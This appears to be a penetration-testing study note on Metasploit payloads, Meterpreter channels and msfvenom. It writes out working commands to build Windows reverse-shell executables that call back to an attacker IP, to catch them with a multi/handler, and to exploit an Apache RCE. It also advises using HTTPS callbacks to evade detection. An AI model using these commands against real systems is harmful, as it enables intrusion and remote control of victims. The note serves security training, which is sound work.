 # Payloads

## **Staged vs Non-Staged**

* **Non-Staged Payload**: Sends the full exploit and shellcode together; more stable but larger in size. E.g. `payload/linux/x64/shell_reverse_tcp`.
* **Staged Payload**: A two-step process. A small stager is first delivered, which then connects to the attacker's machine to fetch the rest of the payload. They have a `/` in the payload name, e.g. `shell/reverse_tcp`.

> _**Staged payloads** are useful when **space is limited** or for **evading detection** but creates extra network traffic. First, a small initial program (the **stager**) runs on the target machine. Its job is to reach back to your attacker machine and download the malicious part of the payload (the **stage**) over the network which is then retrieved and **injected directly into the victim machine's memory**._

## **Meterpreter**

Meterpreter is a powerful, flexible payload that runs entirely in memory, leaving fewer traces and offering encrypted communication, file transfers, and system management tools. It enables advanced post-exploitation actions.

```bash
# Set Meterpreter payload
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 13
payload => linux/x64/meterpreter_reverse_tcp

# Run exploit
msf6 exploit(multi/http/apache_normalize_path_rce) > run

# Example Meterpreter commands
meterpreter > sysinfo
meterpreter > getuid
```

Commands with the `l` prefix operate locally, i.e., on our attacker machine.

```bash
meterpreter > help

...
Stdapi: File system Commands
============================

    Command                   Description
    -------                   -----------
...
    lls                       List local files
    ls                        List files
...
```

### Channels

Meterpreter allows the creation of multiple command shells (**channels**).

```bash
# create a new channel
meterpreter > shell
Process 135 created.
Channel 1 created.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
^Z
Background channel 1? [y/N]  y

# create a second channel
meterpreter > shell
Process 137 created.
Channel 2 created.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
^Z
Background channel 2? [y/N]  y

# list all active channels
meterpreter > channel -l

    Id  Class  Type
    --  -----  ----
    1   3      stdapi_process
    2   3      stdapi_process
```

### **HTTPS**

HTTPS Meterpreter payloads use encrypted web traffic for communication. When the infected target connects back to the attacker's machine, it does so over HTTPS, **making the traffic look like regular web activity**. Security tools monitoring the network only see harmless-looking encrypted requests, not the actual malicious instructions inside. If a defender inspects the callback URL directly in a browser, they’ll just see a generic `404` error, not the payload or its commands. However, Meterpreter is well-known and can be detected by antivirus systems. A common strategy is to use a simple shell to gain initial access, then deploy Meterpreter after evading detection.

```bash
# Example HTTPS Meterpreter payload
payload/linux/x64/meterpreter_reverse_https
```

## **msfvenom**

msfvenom is used to generate payloads in various formats. These payloads initiate a reverse connection to the attacker's machine, allowing remote control.

{% code overflow="wrap" %}
```bash
# List available payloads for Windows x64
$ msfvenom -l payloads --platform windows --arch x64

# Generate non-staged payload (Windows)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.242 LPORT=443 -f exe -o nonstaged.exe

# Generate staged payload (Windows)
$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.242 LPORT=443 -f exe -o staged.exe
```
{% endcode %}

Staged payloads need a **Metasploit handler** (`multi/handler`) since tools like `nc` cannot handle them.

> _`nc` will be to catch them, but we won't be able to send any commands through them._

```bash
# Start multi/handler for staged payloads
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST 192.168.45.242
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run
```
